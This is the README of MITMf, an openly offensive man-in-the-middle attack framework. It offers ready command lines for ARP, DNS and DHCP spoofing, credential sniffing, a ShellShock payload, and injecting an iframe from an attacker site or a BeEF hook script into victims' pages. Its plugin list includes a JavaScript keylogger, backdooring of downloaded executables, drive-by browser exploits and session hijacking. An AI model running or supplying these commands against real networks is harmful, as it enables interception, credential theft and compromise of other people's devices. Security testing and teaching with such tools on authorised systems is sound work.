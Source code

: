 ![Supported Python versions](https://img.shields.io/badge/python-2.7-blue.svg)
![Latest Version](https://img.shields.io/badge/mitmf-0.9.8%20--%20The%20Dark%20Side-red.svg)
![Supported OS](https://img.shields.io/badge/Supported%20OS-Linux-yellow.svg)
[![Code Climate](https://codeclimate.com/github/byt3bl33d3r/MITMf/badges/gpa.svg)](https://codeclimate.com/github/byt3bl33d3r/MITMf)
[![Build Status](https://travis-ci.org/byt3bl33d3r/MITMf.svg)](https://travis-ci.org/byt3bl33d3r/MITMf)
[![Coverage Status](https://coveralls.io/repos/byt3bl33d3r/MITMf/badge.svg?branch=master&service=github)](https://coveralls.io/github/byt3bl33d3r/MITMf?branch=master)

# MITMf

Framework for Man-In-The-Middle attacks

Quick tutorials, examples and developer updates at: https://byt3bl33d3r.github.io

This tool is based on [sergio-proxy](https://github.com/supernothing/sergio-proxy) and is an attempt to revive and update the project.

Contact me at:
- Twitter: @byt3bl33d3r
- IRC on Freenode: #MITMf
- Email: byt3bl33d3r@protonmail.com

**Before submitting issues, please read the relevant [section](https://github.com/byt3bl33d3r/MITMf/wiki/Reporting-a-bug) in the wiki .**

Installation
============

Please refer to the wiki for [installation instructions](https://github.com/byt3bl33d3r/MITMf/wiki/Installation)

Description
============
MITMf aims to provide a one-stop-shop for Man-In-The-Middle and network attacks while updating and improving
existing attacks and techniques.

Originally built to address the significant shortcomings of other tools (e.g Ettercap, Mallory), it's been almost completely 
re-written from scratch to provide a modular and easily extendible framework that anyone can use to implement their own MITM attack.

Features
========

- The framework contains a built-in SMB, HTTP and DNS server that can be controlled and used by the various plugins, it also contains a modified version of the SSLStrip proxy that allows for HTTP modification and a partial HSTS bypass.

- As of version 0.9.8, MITMf supports active packet filtering and manipulation (basically what etterfilters did, only better),
allowing users to modify any type of traffic or protocol.

- The configuration file can be edited on-the-fly while MITMf is running, the changes will be passed down through the framework: this allows you to tweak settings of plugins and servers while performing an attack.

- MITMf will capture FTP, IRC, POP, IMAP, Telnet, SMTP, SNMP (community strings), NTLMv1/v2 (all supported protocols like HTTP, SMB, LDAP etc.) and Kerberos credentials by using [Net-Creds](https://github.com/DanMcInerney/net-creds), which is run on startup.

- [Responder](https://github.com/SpiderLabs/Responder) integration allows for LLMNR, NBT-NS and MDNS poisoning and WPAD rogue server support.

Active packet filtering/modification
====================================

You can now modify any packet/protocol that gets intercepted by MITMf using Scapy! (no more etterfilters! yay!)

For example, here's a stupid little filter that just changes the destination IP address of ICMP packets:

```python
if packet.haslayer(ICMP):
	log.info('Got an ICMP packet!')
	packet.dst = '192.168.1.0'
```

- Use the ```packet``` variable to access the packet in a Scapy compatible format
- Use the ```data``` variable to access the raw packet data

Now to use the filter all we need to do is: ```python mitmf.py -F ~/filter.py```

You will probably want to combine that with the **Spoof** plugin to actually intercept packets from someone else ;)

**Note**: you can modify filters on-the-fly without restarting MITMf! 

Examples
========

The most basic usage, starts the HTTP proxy SMB,DNS,HTTP servers and Net-Creds on interface enp3s0:

```python mitmf.py -i enp3s0```

ARP poison the whole subnet with the gateway at 192.168.1.1 using the **Spoof** plugin:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1```

Same as above + a WPAD rogue proxy server using the **Responder** plugin:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --responder --wpad```

ARP poison 192.168.1.16-45 and 192.168.0.1/24 with the gateway at 192.168.1.1:

```python mitmf.py -i enp3s0 --spoof --arp --target 192.168.2.16-45,192.168.0.1/24 --gateway 192.168.1.1```

Enable DNS spoofing while ARP poisoning (Domains to spoof are pulled from the config file):

```python mitmf.py -i enp3s0 --spoof --dns --arp --target 192.168.1.0/24 --gateway 192.168.1.1```

Enable LLMNR/NBTNS/MDNS spoofing:

```python mitmf.py -i enp3s0 --responder --wredir --nbtns```

Enable DHCP spoofing (the ip pool and subnet are pulled from the config file):

```python mitmf.py -i enp3s0 --spoof --dhcp```

Same as above with a ShellShock payload that will be executed if any client is vulnerable:

```python mitmf.py -i enp3s0 --spoof --dhcp --shellshock 'echo 0wn3d'```

Inject an HTML IFrame using the **Inject** plugin:

```python mitmf.py -i enp3s0 --inject --html-url http://some-evil-website.com```

Inject a JS script:

```python mitmf.py -i enp3s0 --inject --js-url http://beef:3000/hook.js```

Start a captive portal that redirects everything to http://SERVER/PATH:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --captive --portalurl http://SERVER/PATH```

Start captive portal at http://your-ip/portal.html using default page /portal.html (thx responder) and /CaptiveClient.exe (not included) from the config/captive folder:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --captive```

Same as above but with hostname captive.portal instead of IP (requires captive.portal to resolve to your IP, e.g. via DNS spoof):

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --dns --captive --use-dns```

Serve a captive portal with an additional SimpleHTTPServer instance serving the LOCALDIR at http://IP:8080 (change port in mitmf.config):

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --captive --portaldir LOCALDIR```

Same as above but with hostname:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --dns --captive --portaldir LOCALDIR --use-dns```

And much much more! 

Of course you can mix and match almost any plugin together (e.g. ARP spoof + inject + Responder etc..)

For a complete list of available options, just run ```python mitmf.py --help```

# Currently available plugins

- **HTA Drive-By**     : Injects a fake update notification and prompts clients to download an HTA application
- **SMBTrap**          : Exploits the 'SMB Trap' vulnerability on connected clients
- **ScreenShotter**    : Uses HTML5 Canvas to render an accurate screenshot of a clients browser
- **Responder**        : LLMNR, NBT-NS, WPAD and MDNS poisoner
- **SSLstrip+**        : Partially bypass HSTS
- **Spoof**            : Redirect traffic using ARP, ICMP, DHCP or DNS spoofing
- **BeEFAutorun**      : Autoruns BeEF modules based on a client's OS or browser type
- **AppCachePoison**   : Performs HTML5 App-Cache poisoning attacks 
- **Ferret-NG**        : Transparently hijacks client sessions
- **BrowserProfiler**  : Attempts to enumerate all browser plugins of connected clients
- **FilePwn**          : Backdoor executables sent over HTTP using the Backdoor Factory and BDFProxy
- **Inject**           : Inject arbitrary content into HTML content
- **BrowserSniper**    : Performs drive-by attacks on clients with out-of-date browser plugins
- **JSkeylogger**      : Injects a Javascript keylogger into a client's webpages
- **Replace**          : Replace arbitrary content in HTML content
- **SMBAuth**          : Evoke SMB challenge-response authentication attempts
- **Upsidedownternet** : Flips images 180 degrees
- **Captive**          : Creates a captive portal, redirecting HTTP requests using 302

# How to fund my tea & sushi reserve

BTC: 1ER8rRE6NTZ7RHN88zc6JY87LvtyuRUJGU

ETH: 0x91d9aDCf8B91f55BCBF0841616A01BeE551E90ee

LTC: LLMa2bsvXbgBGnnBwiXYazsj7Uz6zRe4fr

